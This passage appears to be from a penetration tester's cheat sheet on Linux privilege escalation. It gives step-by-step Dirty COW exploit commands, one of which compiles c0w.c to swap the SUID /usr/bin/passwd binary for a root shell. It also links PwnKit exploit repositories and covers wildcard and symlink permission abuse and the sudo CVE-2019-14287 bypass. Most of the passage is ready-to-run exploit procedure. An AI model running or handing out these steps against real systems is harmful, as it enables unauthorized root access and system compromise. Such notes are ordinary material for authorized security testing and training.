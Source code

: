 ```sh
./dirty hola   // hola is the new password
# Then su (username)
# AFTER GETTING A SHELL VERY IMPORTANT!!!
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
# -----------ANOTHER ONE, c0w
# c0w.c. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).
# Compile the code and run it (note that it may take several minutes to complete):
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w 
# Execute the exploit
./c0w
# Once the exploit completes, run /usr/bin/passwd to gain a root shell:
/usr/bin/passwd
# Remember to restore the original /usr/bin/passwd file
mv /tmp/bak /usr/bin/passwd

# pkexec - pwnkit
https://github.com/Almorabea/pkexec-exploit
https://github.com/ly4k/PwnKit
```
{% endcode %}

## Wildcards

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

[https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

### chown

`Symlink with group owner -> Original file with/without that group owner needs group write access`

If \* or 777 or similar high permissions are applied, see if we can use symlinks to alter other real files permissions that we can write or are run by root.

## chmod

chmod never changes the permissions of symbolic links; the chmod system call cannot change their permissions. This is not a problem since the permissions of symbolic links are never used. However, for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file.

## (ALL,!root)

CVE-2019-14287

[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

```
Output = (ALL,!root) NOPASSWD: /bin/bash
```
